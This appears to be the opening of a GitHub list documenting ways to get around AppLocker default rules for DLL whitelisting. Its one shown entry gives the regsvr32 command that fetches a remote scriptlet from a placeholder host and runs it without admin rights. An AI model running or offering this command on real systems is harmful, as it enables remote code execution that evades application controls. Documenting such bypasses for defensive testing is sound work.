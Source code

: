 # Bypass DLL Default AppLocker Rules
The goal of this list is document a verified list of known bypasses using AppLocker Default Rules for DLL whitelisting.
Please contribute and do point out errors or resources I have forgotten.


## 1. regsvr32.exe

regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll

Requires admin: No

Links:  
https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302

